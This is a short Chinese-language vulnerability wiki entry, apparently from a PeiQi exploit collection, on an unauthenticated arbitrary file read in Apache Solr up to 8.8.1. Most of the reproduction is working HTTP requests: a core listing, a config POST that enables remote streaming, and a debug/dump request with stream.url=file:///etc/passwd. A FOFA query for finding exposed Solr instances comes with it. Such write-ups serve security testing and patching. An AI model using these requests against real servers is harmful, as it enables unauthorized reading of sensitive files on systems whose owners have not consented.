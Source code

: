 ```yaml
---
title: Apache Solr config 任意文件读取漏洞
---
```


# Apache Solr config 任意文件读取漏洞

## 漏洞描述

Apache Solr 存在任意文件读取漏洞，攻击者可以在未授权的情况下获取目标服务器敏感文件

## 漏洞影响

<a-checkbox checked>Apache Solr <= 8.8.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## 漏洞复现

访问 Solr Admin 管理员页面

![deaf982e-2ddb-4021-9b5b-21ac946a910a](/assets/PeiQi-Wiki/img/deaf982e-2ddb-4021-9b5b-21ac946a910a.png)

获取core的信息

```
/solr/admin/cores?indexInfo=false&wt=json
```

![image-20220307142829893](/assets/PeiQi-Wiki/img/image-20220307142829893.png)

发送请求

```
POST /solr/core/config 
Content-Type: application/json

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}
```

再进行文件读取

```
POST /solr/core/debug/dump?param=ContentStreams 

stream.url=file:///etc/passwd
```

![image-20220307142740665](/assets/PeiQi-Wiki/img/image-20220307142740665.png)
